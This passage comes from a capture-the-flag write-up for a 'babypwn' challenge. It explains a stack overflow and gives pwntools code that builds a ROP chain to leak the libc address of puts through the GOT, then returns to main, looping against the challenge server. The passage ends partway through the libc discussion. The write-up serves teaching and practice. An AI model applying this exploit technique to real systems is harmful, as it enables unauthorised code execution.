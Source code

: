 The `stack` value (`0x00007fffffffe7a0`) is based on the stack frame above (see Errata), and is just below the return address `0x00007fffffffe798`.


### ROP (post ASLR world)

Although compiled with PIE enabled, the challenge server launches with ASLR disabled, so we get the base address for free and can use ROP:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./babypwn')
context.log_level = 'INFO'
context.log_file = 'remote.log'
libc_index = 0
offset = 0x78

if binary.pie:
    # need leak or assume no ASLR
    binary.address = 0x0000555555554000
```

All we need is the stack frame offset (see analysis section above), and the base process address.  Since ASLR is disabled we know that it'll be `0x0000555555554000`.

No brittle stack address info required.

```python
while True:
    p = remote('chal.cybersecurityrumble.de', 1990)

    rop = ROP([binary])
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

    payload  = 2 * b'A'
    payload += (offset - len(payload)) * b'\0'
    payload += p64(pop_rdi)
    payload += p64(binary.got.puts)
    payload += p64(binary.plt.puts)
    payload += p64(binary.sym.main)

    p.sendlineafter('return.\n',payload)
    _ = p.recv(6)
    puts = u64(_ + b'\0\0')
    log.info('puts: ' + hex(puts))
```

This is basic ROP 101, use `pop rdi` and have `puts` _put_ itself out there, then circle back to `main` for a second pass.

This is all enclosed in a while loop is for finding libc.  Although we can get it from the container, with many CTF challenges that is not an option.  I've been using this to lazily just find the correct libc:
